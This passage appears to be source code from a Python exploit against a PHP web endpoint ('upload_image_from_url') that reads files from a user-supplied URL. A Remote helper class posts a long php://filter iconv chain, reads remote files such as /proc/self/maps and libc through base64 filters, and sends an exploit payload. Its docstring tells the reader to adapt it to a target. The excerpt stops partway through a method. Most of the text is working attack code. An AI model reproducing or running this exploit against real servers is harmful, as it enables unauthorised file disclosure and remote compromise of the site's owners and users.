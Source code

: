 ```python


class Remote:
    """A helper class to send the payload and download files.
    
    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.
    
    The code here serves as an example that attacks a page that looks like:
    
    ```php
    <?php
    
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```
    
    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """

        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus('php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource='+path),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)


    def send_exploit(self, payload: bytes) -> Response:
        """Sends the payload to the server.
        """
        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(payload),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)
        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        file_path = self.send(path).json()['response']
```